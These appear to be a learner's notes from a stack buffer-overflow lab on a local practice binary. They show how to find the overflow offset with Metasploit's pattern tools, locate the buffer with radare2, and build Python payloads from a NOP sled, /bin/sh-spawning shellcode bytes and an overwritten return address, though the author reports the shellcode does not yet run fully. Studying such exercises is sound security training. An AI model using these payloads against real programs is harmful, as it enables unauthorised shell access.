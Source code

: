 **Find offset**

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200`

- Use as input for program
- Find offset of stack frame pointer (rbp)
```
> r2 -d buffer_overflow [pattern]
> aa
> dr
``` 
- Use `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [pattern found in rbp]`
  (Keep Little Endianness in mind)
- Offset of pattern is 144


**Find address of buffer**
Provide argument `AAAA` to program

```
> r2 -d buffer_overflow AAAA
> aa
> pdf @sym.copy_arg
> db [address of 'call sym.imp.puts]
> dc
> afvd
```
var var90_h seems to hold our value, so this must be the buffer

You can also find the address of the buffer by looking at the memory area around the stack pointer (radare2):
`px @rsp` 

![Address of buffer](./img/buffer_address.png)
![Memory around stack pointer](./img/stack_memory.png)

Fill the ebp with this value:

`python -c "print(NOP * some amount + shell code (30 bytes) + random data to fill up to 144 bytes + buffer address)"`  

`python -c "print('\x90' * 90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A' * 18 + '\xe0\xe0\xfe\xff\xff\xff\xf7')"`

With this payload, we actually get the program to execute our code. However, in the middle of it, it stops. Dunno what's happening here :(




  # Buffer overflow 4

  Rbp register starts at offset 156
  RIP register starts at offset 164
  Buffer memory starts at 0x7fffffffe0c5

  payload : `python -c "print('\x90' * 100 + '\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80' + 'A' * 19 + '\xc5\xe0\xff\xff\xff\x7f')"`


**In general it seems there is a problem with the shell code. It's not a bad char, though. Maybe something related to function exit call? Investigate further!** 